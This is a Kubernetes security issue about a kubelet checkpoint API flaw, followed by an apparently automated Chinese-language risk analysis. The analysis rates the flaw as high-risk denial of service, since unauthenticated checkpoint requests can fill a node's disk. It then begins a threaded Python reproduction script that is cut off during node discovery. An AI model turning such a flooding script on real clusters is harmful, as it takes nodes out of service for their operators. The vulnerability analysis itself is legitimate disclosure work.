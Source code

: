 If you find evidence that this vulnerability has been exploited, please contact security@kubernetes.io

##### Acknowledgements

This vulnerability was reported and fixed by Tim Allclair @tallclair from Google.

The issue was coordinated by: 

Tim Allclair @tallclair
Sascha Grunert saschagrunert@
Craig Ingram @cji
Jordan Liggitt liggitt@

/triage accepted
/lifecycle frozen
/area security
/kind bug
/committee security-response
/label official-cve-feed
/sig node
/area kubelet

### 分析结果

**风险定级：**  
高风险  
（依据 CVSS 3.1 短评：[CVSS:3.1/AV:L/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H]，攻击者本地网络内即可发起 DoS 攻击，严重影响节点的可用性）

**判断依据：**  
该 issue 描述的是 Kubernetes 中 kubelet Checkpoint API 存在一个漏洞。攻击者可以向未认证的 kubelet 只读 HTTP 端点发送大量容器 checkpoint 请求，从而在 Node 上填满磁盘导致服务不可用（DoS）。该问题利用了 kubelet 在启用了 checkpoint 特性且未作身份验证的情况下接受大量请求的缺陷，依赖的条件是使用了支持 checkpoint 的 container runtime（例如 CRI-O 或 containerd），而且 kubelet 的只读端口开启。问题影响范围较大，且无需攻击者具有任何权限即可触发攻击，因此风险较高。

**复现过程：**

```python
import threading
import time
import requests
from kubernetes import client, config

# 设置全局变量，控制测试时长（单位秒）
TEST_DURATION = 120  # 超时2分钟
REQUEST_TIMEOUT = 5  # 单个请求超时（秒）
NUM_THREADS = 4      # 线程数量，可根据需要调整

# 用于线程间统计请求数
request_counter = 0
counter_lock = threading.Lock()

def load_nodes():
    """
    使用 Kubernetes Python client 加载 kubeconfig 并获取集群中的 NodeInternalIP。
    这里假设 kubeconfig 位于默认位置（如 ~/.kube/config）。
    """
    try:
        config.load_kube_config()
    except Exception as e:
        print("加载 kubeconfig 失败: ", e)
        return []
    v1 = client.CoreV1Api()
    try:
        nodes = v1.list_node().items
    except Exception as e:
        print("获取节点列表失败: ", e)
```